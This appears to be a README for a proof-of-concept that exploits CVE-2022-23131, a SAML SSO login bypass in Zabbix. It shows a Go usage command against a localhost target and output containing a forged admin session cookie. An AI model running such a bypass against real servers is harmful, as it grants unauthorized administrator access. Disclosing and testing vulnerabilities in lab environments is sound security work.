 # Zabbix SAML SSO Login Bypass Vulnerability CVE-2022-23131

Environment and Poc of CVE-2022-23131

## Environment

[Environment setup](漏洞环境搭建)

## Poc

Usage:

```bash
go run poc.go check -t http://localhost:8080 -u Admin

[INFO] 2022/02/24 19:49 vul exist! target: http://localhost:8080, cookie: eyJzYW1sX2RhdGEiOnsidXNlcm5hbWVfYXR0cmlidXRlIjoiQWRtaW4ifSwic2Vzc2lvbmlkIjoiYmYyMzAxMWU1YWMyOWE1MjFlN2E1ZDZjMTAwZDQ2NjAiLCJzaWduIjoiaytKblhjVjlhQmJRa3NJc21oMVRwVEhrMGFDSTJOYkM1VGNTU1doczQ3YVIrNmpWZ1BKOGw5cWZhZlRmcjA3VGVKalNZcW5kZWRPWEtleklmS0Fjb3c9PSJ9
```

